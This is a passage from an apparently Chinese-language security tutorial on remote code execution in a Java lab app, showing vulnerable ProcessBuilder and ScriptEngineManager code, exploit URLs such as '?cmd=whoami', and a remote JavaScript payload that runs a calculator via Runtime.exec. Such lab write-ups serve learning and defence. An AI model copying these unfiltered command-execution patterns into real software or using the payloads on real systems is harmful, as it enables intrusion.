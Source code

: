             return sb.toString();
        }
    }
    

通过查看代码发现，命令执行部分如下，且发现从cmd参数传入，一直到processBuilder.start()都没有对执行的命令进行任何过滤

因此，可以通过控制传入cmd参数执行攻击者想要的任何命令

            try {
               // String[] arrCmd = {"/bin/sh", "-c", cmd};  //linux
                String[] arrCmd = {cmd};                 //windows,windos下无需指定
                ProcessBuilder processBuilder = new ProcessBuilder(arrCmd);
                Process p = processBuilder.start();
    

查看注释上的路由，构造URi为`http://localhost:8081/rce/ProcessBuilder?cmd=whoami`

成功执行命令

![](https://img2024.cnblogs.com/blog/2588316/202506/2588316-20250606192725926-640251246.png)

3、ScriptEngineManager
=====================

_**存在漏洞的代码**_

        @GetMapping("/jscmd")
        public void jsEngine(String jsurl) throws Exception{
            // js nashorn javascript ecmascript
            ScriptEngine engine = new ScriptEngineManager().getEngineByName("js");
            Bindings bindings = engine.getBindings(ScriptContext.ENGINE_SCOPE);//启动javascript引擎
            String cmd = String.format("load(\"%s\")", jsurl);
            engine.eval(cmd, bindings);
        }
    

加载一个JS引擎

            ScriptEngine engine = new ScriptEngineManager().getEngineByName("js");
            Bindings bindings = engine.getBindings(ScriptContext.ENGINE_SCOPE);//启动javascript引擎
    

使用JS引擎执行命令，这里使用`load()`从远程加载JS文件

所以我们可以把恶意payload写在远程js文件中，经由JS引擎加载之后执行恶意命令，进而实现RCE

_**远程恶意JS模板**_

    function mainOutput() {
        var x=java.lang.Runtime.getRuntime().exec("open -a Calculator");
    }
    var a = mainOutput(); 
    

_**注意！！！：根据不同的Script引擎，可能会有不同的执行效果**_

这里起一个python simple httpserver，然后放入恶意js文件，然后构造一个恶意Payload`http://localhost:8081/rce/jscmd?jsurl=http://127.0.0.1:9090/1.js`，成功执行恶意payload

![](https://img2024.cnblogs.com/blog/2588316/202506/2588316-20250606192735436-1922201125.png)
